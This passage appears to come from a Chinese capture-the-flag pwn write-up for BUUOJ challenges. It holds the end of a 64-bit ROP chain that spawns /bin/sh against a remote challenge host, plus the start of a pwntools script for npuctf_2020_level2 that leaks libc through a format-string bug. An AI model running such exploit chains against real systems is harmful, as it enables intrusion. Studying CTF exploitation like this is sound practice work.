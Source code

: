 ```python
rop64 += pack('<Q', 0x000000000043b97c) # pop rax ; ret
rop64 += '/bin//sh'
rop64 += pack('<Q', 0x000000000046aea1) # mov qword ptr [rsi], rax ; ret
rop64 += pack('<Q', 0x0000000000405895) # pop rsi ; ret
rop64 += pack('<Q', 0x00000000006a10e8) # @ .data + 8
rop64 += pack('<Q', 0x0000000000436ed0) # xor rax, rax ; ret
rop64 += pack('<Q', 0x000000000046aea1) # mov qword ptr [rsi], rax ; ret
rop64 += pack('<Q', 0x00000000004005f6) # pop rdi ; ret
rop64 += pack('<Q', 0x00000000006a10e0) # @ .data
rop64 += pack('<Q', 0x0000000000405895) # pop rsi ; ret
rop64 += pack('<Q', 0x00000000006a10e8) # @ .data + 8
rop64 += pack('<Q', 0x000000000043b9d5) # pop rdx ; ret
rop64 += pack('<Q', 0x00000000006a10e8) # @ .data + 8
rop64 += pack('<Q', 0x0000000000436ed0) # xor rax, rax ; ret
rop64 += pack('<Q', 0x000000000043b97c) # pop rax ; ret
rop64 += p64(0x3b)
rop64 += pack('<Q', 0x00000000004011dc) # syscall

add_esp = 0x080a8f69 # add esp, 0xc ; ret

add_rsp = 0x00000000004079d4 # add rsp, 0xd8 ; ret
p = remote('node4.buuoj.cn','26923')
payload = 'AAA'.ljust(0x110,'\x00') + p64(add_esp) + p64(add_rsp) + rop32.ljust(0xd8,'\x00') + rop64
p.sendlineafter('try to pwn it?\n',payload)
p.interactive()
```

## npuctf_2020_level2（bss段格式化字符串）
很经典的非栈上格式化字符串，最近做了好几道字符串的题，深入学习了一下，算是搞懂了
就这道题而言，先用hn输入ret地址，后续就只需要用hhn输入，减少了数据的输入量。还有就是recvuntil的小技巧，能接收大量数据。

```python
from pwn import *

p = process("./npuctf_2020_level2")
#p = remote('node4.buuoj.cn',26382)
# context.log_level = 'debug'
elf = ELF("./npuctf_2020_level2")
libc = ELF('./libc-2.27.so')

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f",timeout = 1)[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)


def dbg():
	gdb.attach(p)

#libc leak
p.sendline('%7$p')
p.recvuntil('0x')
libc_start_main = int(p.recvuntil('\n',drop = True),16) - 0xF1
lg('libc_start_main',libc_start_main)
libc_base = libc_start_main - libc.sym['__libc_start_main']


```